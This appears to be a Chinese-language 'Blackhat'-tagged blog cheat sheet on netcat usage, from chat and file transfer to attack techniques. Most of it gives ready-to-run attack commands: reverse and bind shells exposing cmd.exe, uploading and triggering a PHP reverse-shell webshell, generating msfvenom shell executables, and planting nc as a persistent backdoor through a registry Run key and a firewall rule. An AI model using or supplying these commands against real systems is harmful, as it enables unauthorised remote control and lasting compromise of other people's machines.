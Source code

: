 ```yaml
---
title: Netcat常用方法汇总
name: netcat-general
date: 2017-11-11
tags: [nc,netcat]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 1. 基本使用

### 1.1 聊天工具

```shell
# 服务端
nc -lvp 5678
# 客户端
nc 192.168.1.15 5678
```

### 1.2 文件传输

```shell
# 接收端
nc -lvp 5555 > a.zip
# 发送端
nc 192.168.1.5 5678 < cms.zip
```

### 1.3 反向后门

```shell
# 监听端
nc -lvp 5678
# 控制端
nc 192.168.1.5 5678 -e cmd.exe
```

## 2. 综合使用

### 2.1 结合php反向后门

```shell
# 控制端启动监听
nc -lvp 1234
```

编辑php反弹shell后门，`vi /usr/share/webshells/php/php-reverse-shell.php`，修改 **$ip** 和 **$port** 为控制端的地址和端口
将 `php-reverse-shell.php` 文件上传至目标服务器中，通过浏览器触发 `php-reverse-shell.php` 文件路径，在nc终端中的到反弹shell

### 2.2 结合msfvenom使用

**windows/shell_hidden_bind_tcp**

```shell
msfvenom –p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=4444 –f exe > root.exe
nc 192.168.0.103 4444
```

**windows/shell_reverse_tcp**

```shell
msfvenom –p windows/shell_reverse_tcp  lhost=192.168.0.107 lport=8888 –f exe > root.exe
nc -lvp 8888
```

### 2.3 做持久化后门使用

```shell
# 将nc.exe上传至目标服务器中指定目录
msf > upload /usr/share/windows-binaries/nc.exe C:\\Windows\\system32

# 切换到目标cmd环境
msf > shell

# 添加自启动注册表项
C:\WINDOWS> reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v netcat -d 'C:\windows\system32\nc.exe -Ldp 4445 -e cmd.exe'

# 添加nc出入站防火墙规则
C:\WINDOWS> netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445

# 检查nc防火墙是否已经开放
C:\WINDOWS> netsh firewall show portopening

# 重启目标电脑，使用nc连接
C:\WINDOWS> nc -nv 192.168.0.101 4445
```
